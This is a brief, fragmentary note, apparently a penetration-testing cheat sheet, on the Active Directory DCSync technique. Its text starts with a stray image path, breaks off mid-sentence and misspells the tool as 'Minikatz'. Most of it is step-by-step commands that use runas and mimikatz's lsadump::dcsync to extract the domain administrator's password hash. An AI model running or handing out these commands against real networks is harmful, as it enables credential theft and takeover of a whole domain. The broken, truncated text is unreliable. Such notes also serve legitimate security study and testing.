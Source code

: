 In Active Directory, **DCSync** is a technique used by attackers to impersonate a domain controller and request password hashes from other domain controllers using the **DSGetNCChanges** function. It

Minikatz:

Run as user who has DCSync rights:

```bash
runas /netonly /user:<domain>\<user> powershell
```

Extract Administrators hash:

```bash
mimikatz.exe
privilege::debug
lsadump::dcsync /domain:<domain> /user:<domain>\administrator
```

